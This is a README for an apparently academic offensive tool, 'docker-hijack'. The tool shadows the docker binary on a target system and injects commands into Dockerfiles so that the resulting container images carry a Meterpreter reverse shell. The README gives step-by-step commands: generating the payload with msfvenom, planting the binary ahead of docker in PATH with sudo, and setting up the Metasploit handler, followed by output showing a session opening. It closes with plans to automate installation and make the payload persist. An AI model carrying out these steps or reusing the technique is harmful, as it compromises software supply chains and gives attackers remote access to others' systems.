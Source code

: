 # docker-hijack

Docker-hijack demonstrates how an adversary could hijack the docker build process to embed malware in container images.

This tool is intended for use by ethical security practitioners to assess and improve cybersecurity.

Misuse of this tool is strongly condemned by the author.

This tool was created to satisfy classwork for Dakota State University's CSC-842 Security Tool Development.

![image](media/docker-hijack.drawio.png)

## Prerequisites

- GNU/Linux-based Operating System
- Go compiler
- Docker
- Metasploit (optional)

### Usage

### 1. Build from Source

We do not provide pre-compiled versions of this program.

You must first build docker-hijack from source.

Build instructions are as follows:

```bash
# clone the repository
git clone https://github.com/bluesentinelsec/docker-hijack.git

# enter the project folder
cd docker-highjack

# place a meterpreter shell in the payloads folder
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o pkg/payload/meterpreter

# read/change the evil docker-build commands
cat pkg/payload/build_commands.txt

# build docker-highjack with default options
go build -o docker-hijack cmd/main.go

# confirm executable runs; it should proxy
# '--help' to the legitimate docker executable
./docker-hijack --help
```

### 2. Deploy docker-hijack to target Unix-based system

How you do this is up to you.

Never deploy this tool on target systems unless you have explicit written permission from the device owner(s).

### 3. Install docker-hijack on target

You should now have the docker-hijack binary on the target system.

Next, we need to ensure that docker-hijack is executed before the legitimate docker.

There are many ways to do this, such as setting alias commands, or modifying the user's $PATH variable.

For demonstration purposes, you can simply copy the tainted docker to `/usr/local/bin` which is ahead of the legitimate docker executable.

This requires sudo permissions.

```bash
# move docker-hijack to location ahead of docker in $PATH
sudo mv docker-hijack /usr/local/bin
```

Now confirm that docker-hijack is executed:

```bash
docker --infected

you executed docker hijack
```

Now docker-hijack sits between the user and the legitimate docker executable.

### 4. Wait for compromised user to invoke docker build command

Setup a Meterpreter handler; this needs to match the Meterpreter created in `docker-hijack/pkg/payload/meterpreter`:

```
# example meterpreter commands
sudo msfconsole
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 0.0.0.0
msf > set LPORT 4444
msf > run -j
[*] Started reverse TCP handler on 0.0.0.0:4444 
```

Now wait... whenever a compromised user invokes docker build, docker-hijack will insert a malicious command into the docker build file.

To test this, run a docker build command against `docker-hijack/testData/Dockerfile`.

```bash
# from docker-hijack/testData/
# build the Dockerfile; docker-hijack will intercept the command
# and inject the Dockerfile; once the build is finished, docker-hijack
# will restore the original build file
docker build . -t compromised
```

Finally, execute the container.

If it worked, you should get a shell.

```bash
docker exec -it compromised bash
```

```bash
msf6 exploit(multi/handler) > [*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.1.153:4444 -> 172.17.0.2:41404) at 2023-05-31 18:39:01 -0400
```

### 5. Cleanup

Remove docker-hijack:

```
# delete docker-hijack
rm -rf /usr/local/bin/docker

# stop/delete tainted container image
docker ps
docker stop <tainted container ID>

docker images
docker rmi infected --force
```

## Future Work

Given enough time, I would pursue the following features:

1. Automate docker-hijack installation

2. Deploy the embedded payload as a service/daemon. This should make the payload fire when the container is executed detatched. Cron job is another option; however, containers don't always have cron installed.

3. Make it easier to specify your payloads at build time. Ideally it should be:

```bash
make payload_src=/path/to/your_rat \
     payload_dst=/usr/local/bin/your_rat \
     build_cmds=/path/to/your_build_cmds.txt
```

4. Display docker console output in real time, as opposed to blocking

